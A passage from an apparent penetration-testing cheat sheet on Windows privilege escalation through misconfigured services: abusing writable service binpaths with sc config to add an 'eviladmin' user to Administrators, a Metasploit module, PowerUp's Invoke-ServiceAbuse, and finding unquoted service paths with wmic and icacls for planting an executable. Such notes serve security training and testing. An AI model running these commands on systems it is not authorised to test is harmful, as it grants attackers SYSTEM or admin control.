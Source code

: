 4. Restart service

   ```text
   sc stop "Vulnerable Service"
   sc start "Vulnerable Service"
   ```

5. Config the service to run another command \(e.g. add the user to the local admin group\)

   ```text
   sc config "Vulnerable Service" binpath="net localgroup Administrators eviladmin /add"
   ```

   Alternatively, we can use 

#### Metasploit

```text
exploit/windows/local/service_permissions
```

#### Powershell \(PowerUp\)

```text
Invoke-ServiceAbuse -Name <service_name> -Command <command>
```

## Unquoted Path

When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:

```text
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\Program Folder\A.exe
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
```

If we can drop our malicious exe successfully on one of these paths, upon a restart of the service, Windows will run our exe as SYSTEM. But we should have necessary privileges on one of these folders.

1. Identify all unquoted service path

   ```text
   wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
   ```

2. Check which folder we have the permission to drop our executable on with icacls

   ```text
   C:\> icacls [path]
   ```

   ```text
   F = Full Control
   CI = Container Inherit – This flag indicates that subordinate containers will inherit this ACE.
   OI = Object Inherit – This flag indicates that subordinate files will inherit the ACE.
   ```
